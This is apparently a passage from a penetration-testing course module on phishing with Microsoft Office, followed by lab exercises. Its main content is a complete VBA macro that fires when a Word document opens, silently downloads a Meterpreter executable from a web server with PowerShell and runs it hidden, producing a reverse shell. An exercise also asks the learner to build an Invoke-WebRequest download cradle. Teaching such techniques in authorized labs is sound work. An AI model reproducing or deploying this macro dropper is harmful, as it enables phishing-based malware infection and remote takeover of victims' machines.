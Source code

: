 ```fence
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', 'msfstaged.exe')"
    Shell str, vbHide
    Dim exePath As String
    exePath = ActiveDocument.Path & "\" & "msfstaged.exe"
    Wait (2)
    Shell exePath, vbHide

End Sub

Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub
```

> Listing 13 - Complete VBA macro to download Meterpreter executable and execute it

Let's review what we did. We built a Word document. When the document is opened, and macros are enabled, our code pulls the Meterpreter executable from our web server. We added a small time delay to allow the file to completely download. Finally, we executed our payload (which is hidden from the user) which results in a reverse Meterpreter shell.

## Resources

Some of the labs require you to start the target machine(s) below.

Please note that the IP addresses assigned to your target machines may not match those referenced in the Module text and video.

Phishing with Microsoft Office - VM #3

#### Labs

1. In PowerShell on Windows 11, which PowerShell cmdlet is invoked when the commonly-used Linux command curl is invoked?

2. We can also use the PowerShell [*Invoke-WebRequest*](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.4) cmdlet to download a file from a web server in a simple one-liner. Develop a download cradle inside a Word macro using Invoke-WebRequest. What is the name of the parameter that stores the file?
